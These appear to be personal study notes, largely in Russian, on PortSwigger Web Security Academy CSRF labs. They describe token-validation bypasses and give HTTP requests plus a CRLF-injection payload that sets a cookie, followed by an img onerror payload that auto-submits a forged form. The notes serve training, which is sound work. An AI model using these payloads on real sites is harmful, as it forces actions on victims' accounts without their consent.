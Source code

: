 https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-validation-depends-on-token-being-present

just delete csrf token.
1. Repeater -> Change request method
2. Repeater -> Engagement tools -> Generate CSRF PoC

---

## CSRF, когда токен не привязан к сессии пользователя (use exploit server)

https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-not-tied-to-user-session

Использовать свой токен в эксплойте на сервере
1. Proxy -> Intercept -> Intercept is off (to on) -> go to repeter
2. Repeater -> Engagement tools -> Generate CSRF PoC

---
## CSRF, когда токен привязан к не сеансовому cookie или дублирует не сеансовый cookie

https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-duplicated-in-cookie

https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-tied-to-non-session-cookie

Нужно в форме подвязать свои не сеансовые cookie. Это возможно, если найти пользовательский input, который недостаточно валидирован и передаёт своё значение в header ответа. 

Пусть существует возможность сделать поисковый запрос на сайте:
```http
GET /?search=qwe HTTP/2
Host: 0a5000e0034cd7ff82dc2511007f007e.web-security-academy.net
Cookie: csrfKey=LAKDqGn6ShUWMc54eSO2ZV176pPOh7Fi; session=fZSQ6mf9BoFyRGfEoI4q9WAYTTjG8Kaw
...
```
И получить ответ:
```http
HTTP/2 200 OK
Set-Cookie: LastSearchTerm=qwe; Secure; HttpOnly
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 3419

<!DOCTYPE html>
<html>
...
```
Тогда можно переписать запрос, вставив в него нужный нам `Set-Cookie`:
```http
GET /?search=q%0D%0ASet-Cookie:%20csrfKey=LAKDqGn6ShUWMc54eSO2ZV176pPOh7Fi%20Same-Site=None HTTP/2
Host: 0a5000e0034cd7ff82dc2511007f007e.web-security-academy.net
Cookie: csrfKey=LAKDqGn6ShUWMc54eSO2ZV176pPOh7Fi; session=fZSQ6mf9BoFyRGfEoI4q9WAYTTjG8Kaw
...
```
Тогда пэйлоадом будет выступать:
1. Repeater -> Engagement tools -> Generate CSRF PoC = $FORM
```html
$FORM
<img src="https://YOUR-LAB-ID.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrfKey=YOUR-KEY%3b%20SameSite=None" onerror="document.forms[0].submit()" />
```

---